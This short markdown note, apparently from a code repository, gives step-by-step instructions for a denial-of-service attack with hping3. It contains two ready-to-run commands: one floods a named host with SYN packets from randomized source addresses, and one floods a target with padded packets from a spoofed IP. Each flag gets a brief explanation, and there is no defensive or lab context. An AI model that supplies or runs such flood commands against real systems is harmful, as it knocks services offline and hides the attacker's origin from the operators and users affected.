 # DoS Attack with Hping3

Run this command
```
hping3 --flood -S --rand-source http://stv.com
```

Where:

`--flood` send packets as fast as possible

`-S` (Syn packet): legit TCP packet connection

`--rand-source` randomize the IP source address, like it's requested from different systems (sort of DDoS)

OR
```
sudo hping3 --flood -S -d 2000 -a <fake_ip> <target_ip>
```

Where:

parameter `-d` or `--data` to modify the weight of the sent data

`-a` or `--spoof` to use a single fake IP instead of multiple ones
